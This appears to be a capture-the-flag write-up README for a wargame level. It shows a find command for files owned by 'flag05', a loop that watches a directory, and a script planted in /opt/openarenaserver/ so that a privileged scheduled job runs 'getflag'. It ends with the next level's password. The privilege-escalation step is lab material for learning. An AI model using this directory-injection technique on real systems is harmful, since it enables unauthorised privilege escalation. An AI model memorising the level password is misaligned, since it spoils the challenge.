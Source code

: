 # README


## Info

find / -user flag05 2> /dev/null
	- [/usr/sbin/openarenaserver]
	- [/rofs/usr/sbin/openarenaserver]

while [ 1 ];do echo `ls -lA /opt/openarenaserver/` ; done;

test(file):
whoami >> /tmp/ret_flag
getflag >> /tmp/ret_flag

cp test /opt/openarenaserver/



su - level06
viuaaale9huek52boumoomioc
